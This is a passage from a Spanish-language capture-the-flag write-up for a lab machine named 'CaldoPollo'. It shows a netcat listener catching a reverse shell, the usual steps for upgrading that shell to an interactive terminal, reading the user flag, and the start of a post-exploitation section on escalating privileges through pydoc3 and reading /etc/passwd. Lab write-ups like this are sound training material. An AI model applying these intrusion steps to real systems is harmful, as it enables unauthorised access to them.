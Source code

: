 Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.60] 52308
bash: no se puede establecer el grupo de proceso de terminal (346): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
caldo@CaldoPollo:~$ whoami
whoami
caldo
```
Estamos dentro.

Obtengamos una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z
stty raw -echo; fg

# Paso 3:
reset -> xterm

# Paso 4:
export TERM=xterm
export SHELL=bash
stty rows 51 columns 189
```

Y obtengamos la flag del usuario:
```bash
caldo@CaldoPollo:~$ ls
user.txt
caldo@CaldoPollo:~$ cat user.txt
...
```


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="Privesc">Escalando Privilegios con Binario pydoc3 - Shell Escape</h2>

Revisando el `/etc/passwd`, no encontramos ningún otro usuario registrado:
```bash
root@CaldoPollo:~# cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
caldo:x:1000:1000::/home/caldo:/bin/bash
```
